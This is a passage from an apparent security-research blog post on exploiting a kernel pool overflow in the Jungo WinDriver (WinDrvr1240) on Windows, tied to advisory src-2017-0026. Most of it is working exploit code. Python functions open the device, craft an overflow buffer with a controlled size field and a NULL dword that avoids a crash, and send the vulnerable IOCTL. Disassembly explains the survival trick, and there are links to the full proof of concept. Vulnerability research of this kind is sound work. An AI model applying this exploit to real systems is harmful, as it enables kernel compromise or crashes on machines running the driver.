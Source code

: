 We can see that the freed chunks have been coalesced and now we have a perfect sized hole. All we need to do is allocate and overwrite. 

{% highlight python %}
def we_can_trigger_the_pool_overflow():
    """
    This triggers the pool overflow vulnerability using a buffer of size 0x460.
    """
    GENERIC_READ  = 0x80000000
    GENERIC_WRITE = 0x40000000
    OPEN_EXISTING = 0x3
    DEVICE_NAME   = "\\\\.\\WinDrvr1240"
    dwReturn      = c_ulong()
    driver_handle = kernel32.CreateFileA(DEVICE_NAME, GENERIC_READ | GENERIC_WRITE, 0, None, OPEN_EXISTING, 0, None)
    inputbuffer       = 0x41414141
    inputbuffer_size  = 0x5000
    outputbuffer_size = 0x5000
    outputbuffer      = 0x20000000
    alloc_pool_overflow_buffer(inputbuffer, inputbuffer_size)
    IoStatusBlock = c_ulong()

    if driver_handle:
        dev_ioctl = ntdll.ZwDeviceIoControlFile(driver_handle, None, None, None, byref(IoStatusBlock), 0x953824b7,
                                                inputbuffer, inputbuffer_size, outputbuffer, outputbuffer_size)
        return True
    return False
{% endhighlight %}

#### Surviving the Overflow

You may have noticed the null dword in the exploit at offset 0x90 within the buffer.

{% highlight python %}
def alloc_pool_overflow_buffer(base, input_size):
    """
    Craft our special buffer to trigger the overflow.
    """
    print "(+) allocating pool overflow input buffer"
    baseadd   = c_int(base)
    size = c_int(input_size)
    input  = "\x41" * 0x18                     # offset to size
    input += struct.pack("<I", 0x0000008d)     # controlled size (this triggers the overflow)
    input += "\x42" * (0x90-len(input))        # padding to survive bsod
    input += struct.pack("<I", 0x00000000)     # use a NULL dword for sub_4196CA
    input += "\x43" * ((0x460-0x8)-len(input)) # fill our pool buffer
{% endhighlight %}

This is needed to survive the overflow and avoid any further processing. The following code listing is executed directly after the copy loop.

{% highlight text %}
.text:004199ED loc_4199ED:                                  ; CODE XREF: sub_41998E+41
.text:004199ED                 push    9
.text:004199EF                 pop     ecx
.text:004199F0                 lea     eax, [ebx+90h]       ; controlled from the copy
.text:004199F6                 push    eax                  ; void *
.text:004199F7                 lea     esi, [edx+6Ch]       ; controlled offset
.text:004199FA                 lea     eax, [edx+90h]       ; controlled offset
.text:00419A00                 lea     edi, [ebx+6Ch]       ; controlled from copy
.text:00419A03                 rep movsd
.text:00419A05                 push    eax                  ; int
.text:00419A06                 call    sub_4196CA           ; call sub_4196CA
{% endhighlight %}


[FuzzySec]: https://twitter.com/FuzzySec
[sickness416]: https://twitter.com/sickness416
[skylined]: https://twitter.com/berendjanwever
[ryujin]: https://twitter.com/ryujin
[awe]: https://www.offensive-security.com/information-security-training/advanced-windows-exploitation/
[hevd]: https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
[windriver]: http://www.jungo.com/st/products/windriver/
[advisory]: /advisories/src-2017-0026
[exploit]: /pocs/src-2017-0026.py.txt